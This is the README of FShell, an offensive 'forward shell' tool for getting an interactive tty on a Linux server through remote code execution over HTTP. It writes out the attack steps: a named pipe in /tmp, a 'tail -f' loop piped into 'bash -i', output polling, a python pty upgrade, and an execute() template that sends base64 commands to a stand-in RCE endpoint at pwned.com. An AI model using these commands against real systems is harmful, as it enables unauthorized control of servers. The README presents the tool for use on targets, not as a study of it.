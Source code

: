 
# **FShell**

## What is that
FShell is my own Forward Shell designed to get an interactive tty using remote code execution through a stageless protocol (eg HTTP).


## How it is working
The concepts behind this forward shell are pretty simple.

First you need to create a named pipe on the remote system, it will be used to send command to our tty <br>
```mkfifo /tmp/input```.

Then, create a bash loop that read named pipe content, send it to bash and send the stdin & stderr to output file. <br>
```tail -f /tmp/input | /bin/bash -i > /tmp/output 2>&1 ```

[Reading named pipe] -> [Execute named pipe content] -> [Send stdin/stderr into output file] -> [Go to reading named pipe because of '-f' tail option]

Next part is to start a python thread that performing ```cat /tmp/output``` regularly in order to get output of commands. <br/>
If the thread find output, it will clear file content using ```echo '' > /tmp/output```<br/>
*Tips: In order to avoid error logging of an non-existing file, we execute 'id' command before starting the 'GetOutput' thread to create the output file before reading it.*

The final step is to get user input from our python script and sent it in the named pipe using that kind of command: <br>```echo USERCMD > /tmp/input```

**Final trick**
So, using this we get back a remote interactive shell but some command should not work because we have not a 'tty'.
The 'upgrade_shell' command perform a ```python -c 'import pty;pty.spawn("/bin/bash")'``` (and some export and aliases) to spawn a real tty by the current process (used in named pipe loop)


## Requirements
### On attacker machine

Python3 & lib:
- requests
- termcolor

### On the targeted remote system
It is designed to target Linux OS only and require basic commands/tools on the remote system:
- bash
- mkfifo
- cat
- tail
- ps
- grep
- awk
- kill
- python (and pty module)

## Usage
You can change the ```WRITABLE_FOLDER``` variable if /tmp is not available or if you have something better (prefer /dev/shm if available)

You **must** redefine ```execute``` function to perform your remote code execution:

```python3
def execute(cmd, verbose=False, timeout=None)
    """
    :cmd      Raw shell command to execute on the remote system
    :timetout MANDATORY /!\ Used to kill blocking exec loop (used in named pipe creation) in case you can't, put named pipe creation in separated thread
    :verbose  print full cmd execute on the remote system (Debug mode)
    """
    # Put your RCE code here
    r = requests.get('http://pwned.com/rce.php?cmd=%s' % (b64encode(cmd)), timeout=timeout)
    return r.text.strip() # You can apply formating if the output is not only the output of command
```
### Demo

![FShell Demo](https://github.com/Hypnoze57/FShell/blob/master/demo.gif)


# Thanks

Thanks to [@ippsec](https://twitter.com/ippsec), I wasn't knowing that something like this was possible before watching his videos !

Hope you enjoy it!
